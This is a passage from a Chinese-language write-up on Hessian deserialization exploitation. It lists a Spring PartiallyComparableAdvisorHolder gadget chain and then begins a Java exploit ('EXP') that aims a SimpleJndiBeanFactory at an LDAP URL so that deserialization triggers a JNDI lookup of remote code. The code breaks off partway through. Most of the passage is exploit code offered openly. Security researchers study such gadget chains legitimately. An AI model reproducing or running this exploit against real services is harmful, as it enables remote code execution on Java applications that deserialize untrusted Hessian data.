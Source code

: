 接下来就是 Rome 链和 JdbcRowSetImpl 链了，其实这里不仅仅可以是 Rome 和 JdbcRowSetImpl，只要通过 HashMap 的 hash 方法触发的链都可以运用

### Spring PartiallyComparableAdvisorHolder 链

#### 利用链

```bash
SimpleJndiBeanFactory.doGetType() (org.springframework.jndi.support)
SimpleJndiBeanFactory.getType() (org.springframework.jndi.support)
BeanFactoryAspectInstanceFactory.getOrder() (org.springframework.aop.aspectj.annotation)
AbstractAspectJAdvice.getOrder (org.springframework.aop.aspectj)
AspectJPointcutAdvisor.getOrder() (org.springframework.aop.aspectj)
AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder.toString() (org.springframework.aop.aspectj.autoproxy)
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) //可忽略
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```bash
package org.dili.hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.HashSet;

public class PartiallyComparableAdvisorHolderHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/rtj7ss";

        // 创建SimpleJndiBeanFactory
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
        // Object simpleJndiBeanFactory = Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();

        // 可添加
        // HashSet<String> set = new HashSet<>();
        // set.add(url);
        // setFiled(simpleJndiBeanFactory, "shareableResources", set);
        // setFiled(simpleJndiBeanFactory.getJndiTemplate(), "logger", new NoOpLog());

```